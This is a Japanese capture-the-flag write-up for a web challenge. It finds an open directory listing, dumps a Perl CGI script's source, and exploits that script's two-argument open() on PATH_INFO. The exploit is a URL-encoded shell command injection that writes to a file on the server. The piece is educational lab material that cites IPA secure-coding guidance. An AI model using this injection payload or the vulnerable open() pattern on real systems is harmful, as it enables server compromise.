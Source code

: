 directory listingの脆弱性あり。  

```bash
$ curl https://ctfq.u1tramarine.blue/q26/
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<html>
 <head>
  <title>Index of /q26</title>
 </head>
 <body>
<h1>Index of /q26</h1>
<ul><li><a href="/"> Parent Directory</a></li>
<li><a href="a_scandal_in_bohemia_1.txt"> a_scandal_in_bohemia_1.txt</a></li>
<li><a href="a_scandal_in_bohemia_2.txt"> a_scandal_in_bohemia_2.txt</a></li>
<li><a href="a_scandal_in_bohemia_3.txt"> a_scandal_in_bohemia_3.txt</a></li>
<li><a href="cracked.txt"> cracked.txt</a></li>
<li><a href="flag.txt"> flag.txt</a></li>
<li><a href="index.pl"> index.pl</a></li>
</ul>
</body></html>
```

フラグファイルを見てみる。  

```bash
$ curl https://ctfq.u1tramarine.blue/q26/flag.txt
FROG_CroakCroak

How about to try to see the source code?

$ curl https://ctfq.u1tramarine.blue/q26/index.pl/flag.txt
<!DOCTYPE html>
<html>
  <head>
    <title>A SCANDAL IN BOHEMIA</title>
  </head>
  <body>
    <h1>A SCANDAL IN BOHEMIA</h1>
    <div>
      <a href="/q26/index.pl/a_scandal_in_bohemia_1.txt">A SCANDAL IN BOHEMIA I</a>&nbsp;
      <a href="/q26/index.pl/a_scandal_in_bohemia_2.txt">A SCANDAL IN BOHEMIA II</a>&nbsp;
      <a href="/q26/index.pl/a_scandal_in_bohemia_3.txt">A SCANDAL IN BOHEMIA III</a>&nbsp;
    </div>
    <hr>
    <div>
FROG_CroakCroak<br>
<br>
How about to try to see the source code?<br>
    </div>
    <hr>
    <address>
      http://www.gutenberg.org/files/1661/1661-h/1661-h.htm
    </address>
  </body>
</html>
```

``index.pl``はURL末尾で指定されたファイルの中身をHTML用に整形しているようだ。では``index.pl``自身を渡してやればソースコードを覗けることになる。  
``curl``だと見にくいので、以下はブラウザで``https://ctfq.u1tramarine.blue/q26/index.pl/index.pl``を表示したものを一部抜粋。  

```pl
#!/usr/bin/perl
use CGI;

print <<'EOS';
Content-type: text/html; charset=utf-8

<!DOCTYPE html>
<html>
<head>
<title>A SCANDAL IN BOHEMIA</title>
</head>
<body>
<h1>A SCANDAL IN BOHEMIA</h1>
<div>
<a href="/q26/index.pl/a_scandal_in_bohemia_1.txt">A SCANDAL IN BOHEMIA I</a>&nbsp;
<a href="/q26/index.pl/a_scandal_in_bohemia_2.txt">A SCANDAL IN BOHEMIA II</a>&nbsp;
<a href="/q26/index.pl/a_scandal_in_bohemia_3.txt">A SCANDAL IN BOHEMIA III</a>&nbsp;
</div>
<hr>
<div>
EOS



# Can you crack me? :P
open(F,'cracked.txt');
my $t = <F>;
chomp($t);
if ($t eq 'h@ck3d!') {
print 'FLAG_****************<br><br>';
}
truncate('cracked.txt',0);
####



open(F,substr($ENV{'PATH_INFO'},1));

my $cgi = new CGI;
$cgi->charset('utf-8');
while(<F>) {
chomp;
s/FLAG_\w+/FLAG_****************/g;
print $cgi->escapeHTML($_)."<br>\n";
}

print <<'EOS';
</div>
<hr>
<address>
http://www.gutenberg.org/files/1661/1661-h/1661-h.htm
</address>
</body>
</html>
EOS
```

``$ENV{'PATH_INFO'}``は``https://ctfq.u1tramarine.blue/q26/index.pl/xxxxx``の末尾``/xxxxx``を指す。  
``open(F,substr($ENV{'PATH_INFO'},1));``にも脆弱性があり、https://www.ipa.go.jp/security/awareness/vendor/programmingv1/a04_01.html によれば外部コマンドを実行できてしまう。  

``https://ctfq.u1tramarine.blue/q26/index.pl/echo%20h@ck3d!%20%3E%20cracked.txt%20&&%20cat%20cracked.txt|``をアドレスバーに打ち込む。これは``echo h@ck3d! > cracked.txt && cat cracked.txt``と解釈され実行される。``%20&&%20cat%20cracked.txt``の部分は確認用なのでなくてもいい。  

![a](./a.png)  

この状態で``https://ctfq.u1tramarine.blue/q26/index.pl/flag.txt``にアクセスすることでフラグを入手。  

### 参考

- [ファイルオープン時のパスにご用心 | IPA](https://www.ipa.go.jp/security/awareness/vendor/programmingv1/a04_01.html)
